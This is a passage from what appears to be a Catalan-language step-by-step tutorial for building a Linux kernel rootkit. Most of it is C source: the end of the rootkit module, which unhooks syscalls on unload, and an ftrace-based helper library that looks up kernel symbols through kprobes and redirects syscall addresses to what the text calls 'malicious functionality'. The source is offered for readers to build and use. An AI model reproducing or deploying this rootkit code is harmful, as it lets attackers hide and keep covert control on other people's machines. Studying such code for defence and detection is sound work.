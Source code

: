         static void __exit rootkit_exit(void)
        {
            /* Unhook and restore the syscall and print to the kernel buffer */
            fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
            printk(KERN_INFO "rootkit: Unloaded :-(\n");
        }

        module_init(rootkit_init);
        module_exit(rootkit_exit);
    ```

4. Finalment implementar el fitxer *ftrace_helper.h* que conté les funcions auxiliars per a la implementació del rootkit. La macro HOOK obtindrà l’adreça original on tenim implementada la funcionalitat real de la crida a sistema i la modificarà (**hook**) per tenir en aquella adreça la nostra funcionalitat maliciosa.


    ```c
        /*
        * Helper library for ftrace hooking kernel functions
        * Author: Harvey Phillips (xcellerator@gmx.com)
        * License: GPL
        * */

        #include <linux/ftrace.h>
        #include <linux/linkage.h>
        #include <linux/slab.h>
        #include <linux/uaccess.h>
        #include <linux/version.h>

        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /*
        * On Linux kernels 5.7+, kallsyms_lookup_name() is no longer exported, 
        * so we have to use kprobes to get the address.
        * Full credit to @f0lg0 for the idea.
        */
        #if LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)
        #define KPROBE_LOOKUP 1
        #include <linux/kprobes.h>
        static struct kprobe kp = {
            .symbol_name = "kallsyms_lookup_name"
        };
        #endif

        #define HOOK(_name, _hook, _orig)   \
        {                   \
            .name = (_name),        \
            .function = (_hook),        \
            .original = (_orig),        \
        }

        /* We need to prevent recursive loops when hooking, otherwise the kernel will
        * panic and hang. The options are to either detect recursion by looking at
        * the function return address, or by jumping over the ftrace call. We use the 
        * first option, by setting USE_FENTRY_OFFSET = 0, but could use the other by
        * setting it to 1. (Oridinarily ftrace provides it's own protections against
        * recursion, but it relies on saving return registers in $rip. We will likely
        * need the use of the $rip register in our hook, so we have to disable this
        * protection and implement our own).
        * */
        #define USE_FENTRY_OFFSET 0
        #if !USE_FENTRY_OFFSET
        #pragma GCC optimize("-fno-optimize-sibling-calls")
        #endif
